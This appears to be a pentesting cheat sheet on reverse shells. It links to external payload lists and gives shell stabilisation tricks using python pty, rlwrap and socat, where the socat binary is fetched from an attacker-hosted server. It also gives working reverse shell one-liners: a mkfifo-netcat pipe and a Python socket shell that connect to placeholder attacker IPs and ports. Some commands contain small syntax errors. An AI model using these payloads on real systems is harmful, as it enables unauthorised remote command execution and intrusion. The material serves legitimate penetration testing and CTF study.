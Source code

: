 # Shells

## Introduction
This is conceptual breakdown of types of shells for a list of reverse shells check [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Generate reverse shells with [revshells](https://www.revshells.com/).

Another cheatsheet from [highoncoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/).

# Shell Stablisation Methods

Netcat shell stablisation
```bash
//python trick
//python2|3 remember!
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
```
OR
```bash
//rlwrap trick
sudo apt install rlwrap
rlwrap nc -lvnp <port>
```
OR
//stepto-socat trick
```bash
sudo python3 -m http.server 80
wget <local-ip>/socat -0 /tmp/socat
````
!!IF WINDOWS
```powershell
Invoke-WebRequest -uri <local-ip>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

# Shells

## Linux Shells

bash nc -e workaround
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f
```

python
```python
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ip", port)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);`

'import os; os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f")'
```
